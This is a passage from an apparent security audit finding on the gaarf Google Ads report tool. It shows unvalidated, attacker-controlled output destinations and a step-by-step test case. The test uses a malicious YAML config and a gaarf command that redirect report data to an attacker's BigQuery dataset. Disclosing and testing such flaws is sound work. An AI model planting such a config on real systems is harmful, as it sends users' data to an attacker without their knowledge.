     if output_type == "bq":
        bq_dataset = output_destination.get("dataset") # Attacker controlled value
        bq_project = output_destination.get("project") # Attacker controlled value
        # ... No validation of bq_dataset or bq_project ...
        bq_writer = BigQueryWriter(project=bq_project, dataset=bq_dataset, ...)
        gaarf.execute_and_write(writer=bq_writer, ...)

    elif output_type == "csv":
        csv_output_path = output_destination.get("output-path") # Attacker controlled value
        # ... No validation of csv_output_path ...
        csv_writer = CsvWriter(destination_folder=csv_output_path, ...)
        gaarf.execute_and_write(writer=csv_writer, ...)

    # ... similar flow for other output types (json, sheet, etc.) ...
    ```

- **Security test case:**
  - **Step 1: Prepare Attacker Resources:**
    - Set up a Google Cloud project and create a BigQuery dataset controlled by the attacker (e.g., `attacker-project:attacker_dataset`).
  - **Step 2: Create Malicious `google-ads.yaml`:**
    - Create a file named `malicious-google-ads.yaml` with the following content (adjust with valid but non-sensitive Google Ads API credentials if necessary for testing, otherwise placeholder values can be used, as the vulnerability is about data redirection not credential theft in this scenario):
      ```yaml
      developer_token: YOUR_DEVELOPER_TOKEN # Or a placeholder value
      client_id: YOUR_CLIENT_ID # Or a placeholder value
      client_secret: YOUR_CLIENT_SECRET # Or a placeholder value
      refresh_token: YOUR_REFRESH_TOKEN # Or a placeholder value
      login_customer_id: YOUR_LOGIN_CUSTOMER_ID # Or a placeholder value
      output: bq
      bq:
        project: attacker-project  # Attacker's Google Cloud Project ID
        dataset: attacker_dataset  # Attacker's BigQuery Dataset ID
        location: US
      ```
  - **Step 3: Prepare a Test Query:**
    - Create a simple GAQL query file (e.g., `test_query.sql`) for testing purposes:
      ```sql
      SELECT campaign.id FROM campaign LIMIT 1
      ```
  - **Step 4: Execute `gaarf` with Malicious Configuration:**
    - Run the `gaarf` tool, specifying the malicious configuration file and a valid Google Ads account to fetch data from:
      ```bash
      gaarf test_query.sql --ads-config=malicious-google-ads.yaml --account=YOUR_GOOGLE_ADS_ACCOUNT --output=bq
      ```
      *(Replace `YOUR_GOOGLE_ADS_ACCOUNT` with a valid Google Ads Customer ID)*
  - **Step 5: Verify Data Redirection:**
    - **Attacker Side:** Check the attacker-controlled BigQuery dataset (`attacker-project:attacker_dataset`). Verify that a new table (named based on `test_query.sql`) has been created and contains the Google Ads report data.
    - **User Side:** Check the user's intended BigQuery dataset (if any was implicitly or explicitly intended). Verify that the report data is **not** present in the user's intended location.
  - **Step 6: Expected Result:**
    - The test should successfully demonstrate that the Google Ads report data is written to the attacker-controlled BigQuery dataset, proving the data redirection vulnerability. The user is misled into sending their data to an unintended destination due to the malicious configuration file.

